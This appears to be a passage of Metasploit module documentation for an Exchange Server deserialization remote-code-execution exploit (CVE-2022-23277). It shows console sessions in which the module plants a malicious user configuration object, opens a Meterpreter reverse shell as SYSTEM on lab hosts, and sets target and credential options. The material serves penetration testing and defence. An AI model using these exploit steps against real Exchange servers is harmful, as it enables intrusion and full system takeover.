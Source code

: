 ```
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.18 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAB3/PSE
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:59440) at 2022-08-16 15:47:55 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2019 CU11 Jan22SU (Build 15.2.986.15) on Windows Server 2019 x64 (CVE-2022-23277)

```
msf > use exploit/windows/http/exchange_chainedserializationbinder_rce
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1!
HttpPassword => Password1!
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN MSFLAB.LOCAL
DOMAIN => MSFLAB.LOCAL
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1!       yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.11   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b